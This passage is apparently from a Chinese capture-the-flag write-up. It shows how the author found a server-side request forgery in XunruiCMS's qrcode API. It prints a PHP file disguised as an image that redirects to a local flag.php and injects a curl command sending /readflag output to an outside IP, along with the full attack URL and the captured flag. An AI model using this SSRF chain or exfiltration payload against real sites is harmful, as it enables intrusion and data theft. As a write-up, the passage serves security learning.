 由于这个REMOTE_ADDR伪造不了,只能通过ssrf来打,之前vecctf有个类似的题,所以搜搜xunruicms的漏洞,看看有没有关于ssrf的.

![img](../../../../图片/本地图床/1716107893058-795ca8a5-f85d-40fd-a14d-3fae6c5c99ec.png)

还可以发现有个贵州cms和他洞差不多

![img](../../../../图片/本地图床/1716109080295-9348f954-4226-4532-8bef-281a8edee8fb.png)

可以看到他有个qrcode的ssrf,不过这个cnvd不公开,得自己审下源码

所以需要咱们down下来自己分析

![img](../../../../图片/本地图床/1716107953988-e87a1ea0-4bf5-42a3-8997-6b494324b226.png)

,直接先搜搜qrcode,在这几个文件里来回审审

![img](../../../../图片/本地图床/1716108012698-56f89173-a66a-43ab-b77f-bbdca6242c03.png)

可以看到,在Helper这个文件里面存在着这个

```php
index.php?s=api&c=api&m=qrcode&thumb='.urlencode($thumb).'&text='.urlencode($text).'&size='.$size.'&level='.$level;
```

看他上面注释也能知道这是个二维码调用的函数,然后再看他参数,基本都能被咱们控制,而且这个thumb参数是可以输入url远程调用二维码的,因此就给了咱们机会.可以实现SSRF!!!!

这样思路就清晰了,直接在自己vps上整个恶意文件,伪装成二维码,然后重定向到flag.php,再用cmd来执行命令,完美~~~~

构造恶意文件:

```php
#define width 1000
#define height 1000
<?php
header("location:http://127.0.0.1/flag.php?cmd=curl http://59.110.28.63:6666/?id=`/readflag`");
?>
```

利用header来重定向到flag.php,接着通过curl来外带命令执行结果,再开个python http服务来接收即可.

http://eci-2ze4u7rbddg2d2cl58s7.cloudeci1.ichunqiu.com/index.php?s=api&c=api&m=qrcode&thumb=http://59.110.28.63/1.php&text=1&size=10&level=10

日,之前一直读的/flag,没有tmd

之后再好好看根目录才发现有个readflag,眼瞎了

![img](../../../../图片/本地图床/1716108822678-6d56f64d-0f78-471f-b4c3-3d163f5fcd9e.png)

flag{5fb5c22e-5667-47c3-9959-0fc6e43f483e}

### Misc

#### 大学生安全测试能力调研问卷

填就完事了

#### 火锅链观光打卡
